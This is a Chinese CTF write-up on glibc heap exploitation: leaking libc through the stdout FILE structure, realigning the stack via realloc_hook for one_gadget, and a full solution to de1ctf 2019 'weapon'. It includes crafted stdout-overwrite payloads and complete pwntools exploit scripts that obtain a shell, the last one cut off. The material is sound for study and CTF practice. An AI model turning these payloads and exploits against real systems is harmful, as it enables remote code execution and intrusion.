

# IO leak - 先知社区

IO leak

* * *

# 背景知识

部分堆题没有给予我们打印堆块中间的机会，这种情况下无法通过unsortedbin来泄露基址，这里学习一种新办法，通过io file来泄露基址。

应用范围：  
1、程序没有show函数  
2、开启了FULL RELRO保护

在一个程序中，初始的文件描述符为1,2,3 分别对应着标准输入、标准输出、标准错误，当我们调用scanf函数或者read函数的时候 就会通过调用文件描述符0来从终端输入数据 也就意味着我们可以利用这一点来做到泄露数据。

在linux系统中的IO库，存在FILE文件流来描述文件，其初始创建的三个文件stdin、stdout、stderr位于libc上，而接下来创建的位于堆中，并且其是一个单向链表结构，定义此结构体为\_IO\_FILE\_plus

```plain
struct _IO_FILE_plus
{
    _IO_FILE    file;
    _IO_jump_t   *vtable;
}
```

\_IO\_list\_all 指向了FILE文件的链表头

```plain
pwndbg> p /x *(struct _IO_FILE_plus *) _IO_list_all
$1 = {
  file = {
    _flags = 0xfbad2086, 
    _IO_read_ptr = 0x0, 
    _IO_read_end = 0x0, 
    _IO_read_base = 0x0, 
    _IO_write_base = 0x0, 
    _IO_write_ptr = 0x0, 
    _IO_write_end = 0x0, 
    _IO_buf_base = 0x0, 
    _IO_buf_end = 0x0, 
    _IO_save_base = 0x0, 
    _IO_backup_base = 0x0, 
    _IO_save_end = 0x0, 
    _markers = 0x0, 
    _chain = 0x7ffff7dd2620,
    _fileno = 0x2, 
    _flags2 = 0x0, 
    _old_offset = 0xffffffffffffffff, 
    _cur_column = 0x0, 
    _vtable_offset = 0x0, 
    _shortbuf = {0x0}, 
    _lock = 0x7ffff7dd3770, 
    _offset = 0xffffffffffffffff, 
    _codecvt = 0x0, 
    _wide_data = 0x7ffff7dd1660, 
    _freeres_list = 0x0, 
    _freeres_buf = 0x0, 
    __pad5 = 0x0, 
    _mode = 0x0, 
    _unused2 = {0x0 <repeats 20 times>}
  }, 
  vtable = 0x7ffff7dd06e0
}
```

\_IO\_list\_all 指向 \_IO\_FILE 的链表头部  
最开始查看的是 stderr 这个 FILE 文件 (上面的链表)  
stderr 中的 \_chain 指向 stdout  
stdout 中的 \_chain 指向 stdin

stderr-->stdout-->stdin

```plain
pwndbg> p /x *(struct _IO_FILE_plus *) 0x7ffff7dd2620
$2 = {
  file = {
    _flags = 0xfbad2084,  
    _IO_read_ptr = 0x0, 
    _IO_read_end = 0x0, 
    _IO_read_base = 0x0, 
    _IO_write_base = 0x0, 
    _IO_write_ptr = 0x0, 
    _IO_write_end = 0x0, 
    _IO_buf_base = 0x0, 
    _IO_buf_end = 0x0, 
    _IO_save_base = 0x0,   
    _IO_backup_base = 0x0, 
    _IO_save_end = 0x0, 
    _markers = 0x0, 
    _chain = 0x7ffff7dd18e0, 
    _fileno = 0x1, 
    _flags2 = 0x0, 
    _old_offset = 0xffffffffffffffff, 
    _cur_column = 0x0, 
    _vtable_offset = 0x0, 
    _shortbuf = {0x0}, 
    _lock = 0x7ffff7dd3780,    
    _offset = 0xffffffffffffffff, 
    _codecvt = 0x0, 
    _wide_data = 0x7ffff7dd17a0, 
    _freeres_list = 0x0, 
    _freeres_buf = 0x0, 
    __pad5 = 0x0, 
    _mode = 0x0, 
    _unused2 = {0x0 <repeats 20 times>}
  }, 
  vtable = 0x7ffff7dd06e0
}
```

```plain
pwndbg> p /x *(struct _IO_FILE_plus *) 0x7ffff7dd18e0
$3 = {
  file = {
    _flags = 0xfbad2088, 
    _IO_read_ptr = 0x0, 
    _IO_read_end = 0x0, 
    _IO_read_base = 0x0, 
    _IO_write_base = 0x0, 
    _IO_write_ptr = 0x0, 
    _IO_write_end = 0x0, 
    _IO_buf_base = 0x0, 
    _IO_buf_end = 0x0, 
    _IO_save_base = 0x0, 
    _IO_backup_base = 0x0, 
    _IO_save_end = 0x0, 
    _markers = 0x0, 
    _chain = 0x0, 
    _fileno = 0x0, 
    _flags2 = 0x0, 
    _old_offset = 0xffffffffffffffff, 
    _cur_column = 0x0, 
    _vtable_offset = 0x0, 
    _shortbuf = {0x0}, 
    _lock = 0x7ffff7dd3790, 
    _offset = 0xffffffffffffffff, 
    _codecvt = 0x0, 
    _wide_data = 0x7ffff7dd19c0, 
    _freeres_list = 0x0, 
    _freeres_buf = 0x0, 
    __pad5 = 0x0, 
    _mode = 0x0, 
    _unused2 = {0x0 <repeats 20 times>}
  }, 
  vtable = 0x7ffff7dd06e0
}
```

\_IO\_file\_jumps结构，该结构为所有的FILE文件所共用，存储的是一些函数的指针，我们也可以通过修改这些函数指针或者在可写区域伪造一个vtable结构。

```plain
pwndbg> p _IO_file_jumps
$9 = {
  __dummy = 0, 
  __dummy2 = 0, 
  __finish = 0x7ffff7a869d0 <_IO_new_file_finish>, 
  __overflow = 0x7ffff7a87740 <_IO_new_file_overflow>, 
  __underflow = 0x7ffff7a874b0 <_IO_new_file_underflow>, 
  __uflow = 0x7ffff7a88610 <__GI__IO_default_uflow>, 
  __pbackfail = 0x7ffff7a89990 <__GI__IO_default_pbackfail>, 
  __xsputn = 0x7ffff7a861f0 <_IO_new_file_xsputn>,  
  __xsgetn = 0x7ffff7a85ed0 <__GI__IO_file_xsgetn>, 
  __seekoff = 0x7ffff7a854d0 <_IO_new_file_seekoff>, 
  __seekpos = 0x7ffff7a88a10 <_IO_default_seekpos>, 
  __setbuf = 0x7ffff7a85440 <_IO_new_file_setbuf>, 
  __sync = 0x7ffff7a85380 <_IO_new_file_sync>, 
  __doallocate = 0x7ffff7a7a190 <__GI__IO_file_doallocate>, 
  __read = 0x7ffff7a861b0 <__GI__IO_file_read>, 
  __write = 0x7ffff7a85b80 <_IO_new_file_write>, 
  __seek = 0x7ffff7a85980 <__GI__IO_file_seek>, 
  __close = 0x7ffff7a85350 <__GI__IO_file_close>, 
  __stat = 0x7ffff7a85b70 <__GI__IO_file_stat>, 
  __showmanyc = 0x7ffff7a89b00 <_IO_default_showmanyc>, 
  __imbue = 0x7ffff7a89b10 <_IO_default_imbue>
```

# 原理介绍

通过篡改\_IO\_2\_1\_stdout\_结构体中的flags字段和\_IO\_write\_base字段，通过篡改flags字段来绕过一些检查，通过篡改\_IO\_write\_base字段使得系统调用write打印\_IO\_write\_base字段与\_IO\_write\_ptr字段之间的内容泄露出libc地址。  
通过FILE文件结构和puts函数达到泄露基址的目的

## puts函数源码

```plain
#include "libioP.h"
#include <string.h>
#include <limits.h>
int
_IO_puts (const char *str)
{
  int result = EOF;
  size_t len = strlen (str);
  _IO_acquire_lock (stdout);
  if ((_IO_vtable_offset (stdout) != 0
       || _IO_fwide (stdout, -1) == -1)
      && _IO_sputn (stdout, str, len) == len
      && _IO_putc_unlocked ('\n', stdout) != EOF)
    result = MIN (INT_MAX, len + 1);
  _IO_release_lock (stdout);
  return result;
}
weak_alias (_IO_puts, puts)
libc_hidden_def (_IO_puts)
```

这里调用了个 \_IO\_sputn 函数，执行 \_IO\_sputn 函数过程中执行了 \_IO\_new\_file\_xsputn 函数，继续执行会调用 \_IO\_overflow 函数

上面vtable结构中:  
\_\_overflow = 0x7ffff7a87740 <\_IO\_new\_file\_overflow>  
所以 \_IO\_overflow 函数 会调用 \_IO\_new\_file\_overflow  
puts --> \_IO\_sputn --> \_IO\_new\_file\_xsputn --> \_IO\_overflow --> \_IO\_new\_file\_overflow

## \_IO\_new\_file\_overflow源码

```plain
int
_IO_new_file_overflow (FILE *f, int ch)
{
  if (f->_flags & _IO_NO_WRITES) /* SET ERROR */
    {
      f->_flags |= _IO_ERR_SEEN;
      __set_errno (EBADF);
      return EOF;
    }
  /* If currently reading or no buffer allocated. */
  if ((f->_flags & _IO_CURRENTLY_PUTTING) == 0 || f->_IO_write_base == NULL)
    {
      /* Allocate a buffer if needed. */
      if (f->_IO_write_base == NULL)
        {
            _IO_doallocbuf (f);
            _IO_setg (f, f->_IO_buf_base, f->_IO_buf_base, f->_IO_buf_base);
        }
      /* Otherwise must be currently reading.
     If _IO_read_ptr (and hence also _IO_read_end) is at the buffer end,
     logically slide the buffer forwards one block (by setting the
     read pointers to all point at the beginning of the block).  This
     makes room for subsequent output.
     Otherwise, set the read pointers to _IO_read_end (leaving that
     alone, so it can continue to correspond to the external position). */
      if (__glibc_unlikely (_IO_in_backup (f)))
        {
        size_t nbackup = f->_IO_read_end - f->_IO_read_ptr;
         _IO_free_backup_area (f);
         f->_IO_read_base -= MIN (nbackup,
                    f->_IO_read_base - f->_IO_buf_base);
         f->_IO_read_ptr = f->_IO_read_base;
        }
      if (f->_IO_read_ptr == f->_IO_buf_end)
        f->_IO_read_end = f->_IO_read_ptr = f->_IO_buf_base;
      f->_IO_write_ptr = f->_IO_read_ptr;
      f->_IO_write_base = f->_IO_write_ptr;
      f->_IO_write_end = f->_IO_buf_end;
      f->_IO_read_base = f->_IO_read_ptr = f->_IO_read_end;
      f->_flags |= _IO_CURRENTLY_PUTTING;
      if (f->_mode <= 0 && f->_flags & (_IO_LINE_BUF | _IO_UNBUFFERED))
        f->_IO_write_end = f->_IO_write_ptr;
    }
  if (ch == EOF)
    return _IO_do_write (f, f->_IO_write_base,
             f->_IO_write_ptr - f->_IO_write_base);
  if (f->_IO_write_ptr == f->_IO_buf_end ) /* Buffer is really full */
    if (_IO_do_flush (f) == EOF)
      return EOF;
  *f->_IO_write_ptr++ = ch;
  if ((f->_flags & _IO_UNBUFFERED)
      || ((f->_flags & _IO_LINE_BUF) && ch == '\n'))
    if (_IO_do_write (f, f->_IO_write_base,
              f->_IO_write_ptr - f->_IO_write_base) == EOF)
      return EOF;
  return (unsigned char) ch;
}
```

绕过第一个if判断,需要 f->\_flags & \_IO\_NO\_WRITES = 0  
绕过第二个if判断,需要 f->\_flags & \_IO\_CURRENTLY\_PUTTING = 1  
最后其调用了\_IO\_do\_write (new\_do\_write) 函数

## new\_do\_write源码

```plain
static size_t
new_do_write (FILE *fp, const char *data, size_t to_do)
{
  size_t count;
  if (fp->_flags & _IO_IS_APPENDING)
    /* On a system without a proper O_APPEND implementation,
       you would need to sys_seek(0, SEEK_END) here, but is
       not needed nor desirable for Unix- or Posix-like systems.
       Instead, just indicate that offset (before and after) is
       unpredictable. */
    fp->_offset = _IO_pos_BAD;
  else if (fp->_IO_read_end != fp->_IO_write_base)
    {
      off64_t new_pos= _IO_SYSSEEK (fp, fp->_IO_write_base - fp->_IO_read_end, 1);
      if (new_pos == _IO_pos_BAD)
          return 0;
      fp->_offset = new_pos;
    }
  count = _IO_SYSWRITE (fp, data, to_do);
  if (fp->_cur_column && count)
    fp->_cur_column = _IO_adjust_column (fp->_cur_column - 1, data, count) + 1;
  _IO_setg (fp, fp->_IO_buf_base, fp->_IO_buf_base, fp->_IO_buf_base);
  fp->_IO_write_base = fp->_IO_write_ptr = fp->_IO_buf_base;
  fp->_IO_write_end = (fp->_mode <= 0 && (fp->_flags & (_IO_LINE_BUF | _IO_UNBUFFERED))  ? fp->_IO_buf_base : fp->_IO_buf_end);
  return count;
}
```

如果fp->\_IO\_read\_end的值设置为0 那么\_IO\_SYSSEEK的第二个参数值就会过大  
如果设置fp->\_IO\_write\_base = fp->\_IO\_read\_end的话 那么在其它地方就会有问题  
因为fp->\_IO\_write\_base 不能大于 fp->\_IO\_write\_end  
所以这里要设置fp->\_flags | \_IO\_IS\_APPENDING，避免进入else if 分支  
综上所述 因此我们要泄露基址的话 需要将flag改为0xfbad1800

```plain
payload = p64(0xfbad1800)+p64(0)*3+b"\x58" //泄露_IO_file_jumps
payload = p64(0xfbad3887)+p64(0)*3+p8(0)  //泄露_IO_2_1_stdin_
```

# 利用过程

1、将\_IO\_2\_1\_stdout\_结构体申请出来。  
2、往\_IO\_2\_1\_stdout\_结构体写入构造好的数据。  
3、执行任意一个puts函数，就可以将libc地址泄露出来。

## 申请

不同libc版本对于stdout结构体的申请:  
2.27和2.31:没有针对tcachebin的fd指针进行相关保护,tcache poisoning修改其fd指针就可以直接将堆块申请出来,只要能控制fd指针，就可以直接将\_IO\_2\_1\_stdout\_结构体(之后统称为stdout结构体)申请出来  
2.23:fastbin中申请堆块是对size位进行了检查。而我们能伪造size通过检查的地址只有malloc\_hook-0x23和stdout结构体地址-0x43这两处

爆破一比特申请stdout结构体:使用io leak的时候，我们肯定是没有libc地址的，那我们就无法直接将tcachebin或者fastbin的fd指针修改为stdout结构体地址,所以利要用unsorted bin中的fd指针.unsorted bin中的fd指针指向的是main arena+88或者main arena+96的位置,这里是位于libc中.如果这个地址能出现在fastbin或者tcachebin中fd的位置，且我们可以对fd指针进行编辑，那我们就可以将其修改为stdout结构体地址(stdout结构体地址的后三位是固定的，但是倒数第四位会因为ASLR的原因而随机化，可我们只能写入两字节，无法写入一个半字节，因此倒数第四位只能通过爆破来预测)。

如何让unsorted bin中的fd指针出现在fastbin或者tcachebin中的fd的位置，这就属于八仙过海各显神通了，不同题目的思路都不一样.

## 编译

将stdout结构体申请出来后，正常情况下是可以往里面写入数据的。

我们需要覆盖stdout结构体中的\_flags字段为0xfbad1887，并且覆盖\_IO\_read\_ptr、\_IO\_read\_end、\_IO\_read\_base这三个指针为0，最后覆盖\_IO\_write\_base指针的最后一字节为00(这里并不是非要为00，因为到时候puts函数会泄露\_IO\_write\_base指针与\_IO\_write\_ptr指针之间的所有数据，只要将\_IO\_write\_base指针改的小于\_IO\_write\_ptr指针并且确定这二者之间存在libc地址，那么都是可以的，只不过我通常将其覆盖为\\x00)

至于为什么要将\_flags字段改为0xfbad1887这个值，是因为这个字段的各个比特位都属于标志位，不同比特位存在的意义不同，能绕过的检查也不同。而将\_flags字段改为0xfbad1887这个值，正好可以绕过阻止我们完成io leak的所有检查(具体是哪些检查又或者如何绕过的，可以去网上看一下其他师傅的博客，当时感觉师傅们写的很全并且很好，我就没再去单独写了)，然后read那三个指针，我试了一下，他们的值无所谓(不一定非要写成00)。

## 泄露

执行puts函数就泄露了libc地址

# realloc\_hook 调整栈帧使 onegadget 生效

在某些堆的题目当中，由于限制只能劫持 malloc\_hook ，这种情况一般是往 malloc\_hook 写入 onegadget ，再次申请堆来 getshell 。但由于栈帧情况不满足，查询到的所有 onegadget 可能都打不通，这时就可以考虑下用 malloc\_hook 和 realloc\_hook 结合。先通过 realloc 调整栈帧，然后在运行 onegadget 。

## realloc

realloc 在库函数中的作用是重新调整 malloc 或 calloc 所分配的堆大小。它和 malloc 函数一样有 hook 函数，当 hook 函数不为空时，就会跳转运行 hook 函数（和 malloc\_hook 一样的）。

```plain
__int64 __fastcall realloc(signed __int64 a1, unsigned __int64 a2, __int64 a3)
{
 ……
 if ( _realloc_hook )
 return _realloc_hook(a1, a2, retaddr);
    ……
```

```plain
.text:00000000000846C0 realloc         proc near               ; DATA XREF: LOAD:0000000000006BA0↑o
.text:00000000000846C0 ; __unwind {
.text:00000000000846C0                 push    r15    #0         ; Alternative name is '__libc_realloc'
.text:00000000000846C2                 push    r14    #2
.text:00000000000846C4                 push    r13    #4
.text:00000000000846C6                 push    r12    #6
.text:00000000000846C8                 mov     r13, rsi
.text:00000000000846CB                 push    rbp    #11
.text:00000000000846CC                 push    rbx    #12
.text:00000000000846CD                 mov     rbx, rdi
.text:00000000000846D0                 sub     rsp, 38h
.text:00000000000846D4                 mov     rax, cs:__realloc_hook_ptr
.text:00000000000846DB                 mov     rax, [rax]
.text:00000000000846DE                 test    rax, rax
.text:00000000000846E1                 jnz     loc_848E8  ; 跳转执行 realloc_hook
.text:00000000000846E7                 test    rsi, rsi
.text:00000000000846EA                 jnz     short loc_846F5
.text:00000000000846EC                 test    rdi, rdi
.text:00000000000846EF                 jnz     loc_84960
```

函数一开始有很多的 push ，realloc 函数先执行 push 压栈，然后在跳转执行 realloc\_hook 存储的函数。我们就是利用这些 push 调整栈帧。push 的数量发生变化会影响 rsp 的地址，这样就可以控制 rsp 的取值，从而满足 onegadget 的执行条件。除了可以控制 push 数量，还能通过偏移得到其他的 push xxx 。

```plain
0x45226 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4527a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf03a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1247 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

我们可以用realloc\_addr+offset的方式来调整栈，offset可取0，2,4,6,11,12。依次减少了push的次数。push指令会减小rsp的值，减少push指令个数相当于抬高栈，有利于满足rsp+0x30==NULL。  
将realloc\_hook覆盖为one\_gadget，然后将malloc\_hook覆盖为realloc\_addr+offset  
这样劫持后的实际运行顺序：  
malloc -> malloc\_hook -> realloc -> realloc\_hook -> onegadget

[](https://xzfile.aliyuncs.com/media/upload/picture/20230627165752-b30bac5e-14c8-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230627165807-bc3957c2-14c8-1.png)  
多一个push，rsp向低地址移动一个单元

# de1ctf\_2019\_weapon ( libc2.23 )

## ida

[](https://xzfile.aliyuncs.com/media/upload/picture/20230627165855-d8644d8a-14c8-1.png)

```plain
void __fastcall __noreturn main(int a1, char **a2, char **a3)
{
  int v3; // [rsp+4h] [rbp-Ch]

  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  while ( 1 )
  {
    menu();
    v3 = choice();
    switch ( v3 )
    {
      case 1:
        add();
        break;
      case 2:
        delete();
        break;
      case 3:
        edit();
        break;
      default:
        puts("Incalid choice!");
        break;
    }
  }
}
```

```plain
__int64 sub_B5A()
{
  int v1; // [rsp+8h] [rbp-18h] BYREF
  int v2; // [rsp+Ch] [rbp-14h]
  void *v3; // [rsp+10h] [rbp-10h]
  unsigned __int64 v4; // [rsp+18h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  printf("wlecome input your size of weapon: ");
  _isoc99_scanf("%d", &v1);
  if ( v1 <= 0 || v1 > 96 )  // 0 ~ 0x60
  {
    printf("The size of weapon is too dangers!!");
    exit(0);
  }
  printf("input index: ");
  v2 = choice();
  v3 = malloc(v1);
  if ( !v3 )
  {
    printf("malloc error");
    exit(0);
  }
  dword_202068[4 * v2] = v1;
  *(&unk_202060 + 2 * v2) = v3;
  puts("input your name:");
  read_size(*(&unk_202060 + 2 * v2), v1);
  return 0LL;
}
```

```plain
unsigned __int64 sub_CBB()
{
  int v1; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  printf("input idx :");
  v1 = choice();
  free(*(&unk_202060 + 2 * v1));  //UAF
  puts("Done!");
  return __readfsqword(0x28u) ^ v2;
}
```

```plain
unsigned __int64 sub_D59()
{
  int v1; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  printf("input idx: ");
  v1 = choice();
  puts("new content:");
  read_size(*(&unk_202060 + 2 * v1), dword_202068[4 * v1]);
  puts("Done !");
  return __readfsqword(0x28u) ^ v2;
}
```

这个就是一般的UAF然后没有show函数

## 思路

大致思路是利用 edit 来扩展 fastbin 中的堆块到 unsorted bin 中（最大申请0x60,所以用这种方法），然后将 unsorted bin 中带有 main\_arena+0x88 的链条放入 fastbin 中，再通过 edit 修改 main\_arena+0x88 为 &\_IO\_2\_1_stdout_\-0x43 ( 这里开启ASLR的时候需要爆破一位 )，然后直接 add(0x60,11,b'\\x00'_0x33+p64(0xfbad1887)+p64(0)_3+b'\\x00') ，调用puts就泄露出 libc\_base 了,之后打个fastbin attack 就行，就是构造两个chunk的 fastbin 链，然后编辑一下 malloc\_hook-0x23 ，之后就申请到malloc-0x23的位置，直接打 og 就行，需要注意的就是这里需要用realloc调一下栈帧。

## 详细流程

为了方便，我们先关闭ASLR

```plain
su
echo 0 > /proc/sys/kernel/randomize_va_space
cat /proc/sys/kernel/randomize_va_space
```

首先申请几个堆块，最后一个起保护作用。

```plain
add(0x60,0,'a')
add(0x60,1,'b')
add(0x60,8,'d')
add(0x20,7,'prevent_chunk')
```

我们的目的是合并chunk1和chunk8

```plain
delete(1)
delete(0)
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230627170046-1a9c5fee-14c9-1.png)

```plain
edit(0,'\x50')
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230627170100-22d24cd2-14c9-1.png)  
这时还没有在0x555555757050处伪造成功

[](https://xzfile.aliyuncs.com/media/upload/picture/20230627170108-27e61cda-14c9-1.png)

```plain
add(0x60,5,p64(0)*9+p64(0x71))
```

利用第一步的申请修改

[](https://xzfile.aliyuncs.com/media/upload/picture/20230627170122-2fecf3a4-14c9-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230627170135-37f701d4-14c9-1.png)

```plain
add(0x60,6,p64(0)*3+p64(0xe1))
```

修改 0x555555757070 处堆块的大小为 0xe1

[](https://xzfile.aliyuncs.com/media/upload/picture/20230627170150-4100c7e2-14c9-1.png)

```plain
delete(1)
```

成功扩展堆

[](https://xzfile.aliyuncs.com/media/upload/picture/20230627170209-4c12db0c-14c9-1.png)

```plain
delete(0)
delete(8)
edit(8,'\x70')
```

同样的手法再来一遍

[](https://xzfile.aliyuncs.com/media/upload/picture/20230627170229-57de9bec-14c9-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230627170235-5bb1e742-14c9-1.png)

```plain
edit(6,p64(0)*3+p64(0x71)+b'\xdd\x25')
```

这里是把0xe1改为0x71然后才能从fastbin中取出

[](https://xzfile.aliyuncs.com/media/upload/picture/20230627170302-6b8e73ce-14c9-1.png)  
打fastbin attack将fake\_chunk申请到stdout结构体上方，这个地址是在&\_IO\_2\_1_stdout_\-0x43的位置，因为我们需要一个地址是0x7f开头，同时下一个内存单元为0的地址，这个位置就是符合的。

[](https://xzfile.aliyuncs.com/media/upload/picture/20230627170313-721ba978-14c9-1.png)  
这个地址的后三位是固定的，倒数第四位是随机的 ，但是我们只能写两字节因此第四位必须要去爆破，在调试的时候关闭ASLR就无需爆破了。

```plain
add(0x60,11,b'\x00'*0x33+p64(0xfbad1887)+p64(0)*3+b'\x00')
```

然后fake\_chunk申请到stdout结构体上方后，我们去改变结构体的\_flags字段和\_IO\_write\_base字段(偏移一定)等再次调用puts函数的时候，我们就可以获取libc基地址了（需要注意的是将\_flags字段改成0xfbad1880，之后的puts都不会再加\\n了，因此要处理一下接收部分。不过用0xfbad1887puts都会再加\\n）

```plain
leak_libc=u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
libc_base=leak_libc-0x3c5600
leak('libc_base ',libc_base)
malloc_hook=libc_base+libc.symbols['__malloc_hook']
leak('malloc_hook ',malloc_hook)
realloc=libc_base+libc.symbols['realloc']
ogs = [0x45226,0x4527a,0xf03a4,0xf1247]
og=libc_base+ogs[1]
leak('og ',og)
```

泄露完libc\_base后，直接打fastbin attack就行了

```plain
add(0x60,10,'a') 
delete(10)
edit(10,p64(malloc_hook-0x23))
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230627170349-87bc1628-14c9-1.png)

```plain
add(0x60,12,'a')
add(0x60,13,b'\x00'*0xb+p64(og)+p64(realloc+4))
```

这里realloc调栈上面介绍过了，然后b'\\x00'\*0xb+p64(og)可以当成固定的模板  
然后申请一下就getshell了

```plain
p.sendlineafter('choice >> ',str(1))
p.sendlineafter('wlecome input your size of weapon: ',str(0x60))
p.sendlineafter('input index: ',str(14))
```

## exp ( 关闭ASLR )

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'


#p=process('./pwn')
#p=remote('node4.buuoj.cn',29025)
elf = ELF('./pwn')
#libc=ELF('./libc-2.23.so')
libc=ELF('/lib/x86_64-linux-gnu/libc-2.23.so')

def duan():
    gdb.attach(p)
    pause()

def add(size,idx,content):
    sla('choice >> \n',str(1))
    sla('wlecome input your size of weapon: ',str(size))
    sla('input index: ',str(idx))
    sa('input your name:\n',content)

def delete(idx):
    sla('choice >> \n',str(2))
    sla('input idx :',str(idx))

def edit(idx,content):
    sla('choice >> \n',str(3))
    sla('input idx: ',str(idx))
    sa('new content:\n',content)


add(0x60,0,'a')
add(0x60,1,'b')
add(0x60,8,'d')
add(0x20,7,'prevent_chunk')
delete(1)
delete(0)
edit(0,'\x50')
#duan()
add(0x60,5,p64(0)*9+p64(0x71))
add(0x60,6,p64(0)*3+p64(0xe1))
delete(1)
#duan()
delete(0)
delete(8)

edit(8,'\x70')

edit(6,p64(0)*3+p64(0x71)+b'\xdd\x25')

add(0x60,9,'a')
add(0x60,10,'a')
#duan()
add(0x60,11,b'\x00'*0x33+p64(0xfbad1887)+p64(0)*3+b'\x00')

leak_libc=u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
libc_base=leak_libc-0x3c5600
leak('libc_base ',libc_base)
malloc_hook=libc_base+libc.symbols['__malloc_hook']
leak('malloc_hook ',malloc_hook)
realloc=libc_base+libc.symbols['realloc']
ogs = [0x45226,0x4527a,0xf03a4,0xf1247]
og=libc_base+ogs[1]
leak('og ',og)

add(0x60,10,'a') 

delete(10)
edit(10,p64(malloc_hook-0x23))
#duan()
add(0x60,12,'a')

add(0x60,13,b'\x00'*0xb+p64(og)+p64(realloc+4))
#duan()
p.sendlineafter('choice >> ',str(1))
p.sendlineafter('wlecome input your size of weapon: ',str(0x60))
p.sendlineafter('input index: ',str(14))
#duan()
itr()
```

## exp（开启ASLR）

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'


#p=process('./pwn')
#p=remote('node4.buuoj.cn',29025)
elf = ELF('./pwn')
#libc=ELF('./libc-2.23.so')
libc=ELF('/lib/x86_64-linux-gnu/libc-2.23.so')

def duan():
    gdb.attach(p)
    pause()

def add(size,idx,content):
    sla('choice >> \n',str(1))
    sla('wlecome input your size of weapon: ',str(size))
    sla('input index: ',str(idx))
    sa('input your name:\n',content)

def delete(idx):
    sla('choice >> \n',str(2))
    sla('input idx :',str(idx))

def edit(idx,content):
    sla('choice >> \n',str(3))
    sla('input idx: ',str(idx))
    sa('new content:\n',content)

def pwn():
    add(0x60,0,'a')
    add(0x60,1,'b')
    add(0x60,8,'d')
    add(0x20,7,'prevent_chunk')
    delete(1)
    delete(0)
    edit(0,'\x50')
    #duan()
    #debug(p,'pie',d_a,d_d,d_e,0xB35)
    add(0x60,5,p64(0)*9+p64(0x71))
    add(0x60,6,p64(0)*3+p64(0xe1))
    delete(1)
    #duan()
    delete(0)
    delete(8)
    edit(8,'\x70')
    #duan()
    edit(6,p64(0)*3+p64(0x71)+b'\xdd\x25')
    add(0x60,9,'a')
    add(0x60,10,'a')
    add(0x60,11,b'\x00'*0x33+p64(0xfbad1887)+p64(0)*3+b'\x00')

    leak_libc=u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
    libc_base=leak_libc-0x3c5600
    leak('libc_base ',libc_base)
    malloc_hook=libc_base+libc.symbols['__malloc_hook']
    leak('malloc_hook ',malloc_hook)
    realloc=libc_base+libc.symbols['realloc']
    ogs = [0x45226,0x4527a,0xf03a4,0xf1247]
    og=libc_base+ogs[1]
    leak('og ',og)

    add(0x60,10,'a') 

    delete(10)
    edit(10,p64(malloc_hook-0x23))
    add(0x60,12,'a')

    add(0x60,13,b'\x00'*0xb+p64(og)+p64(realloc+4))
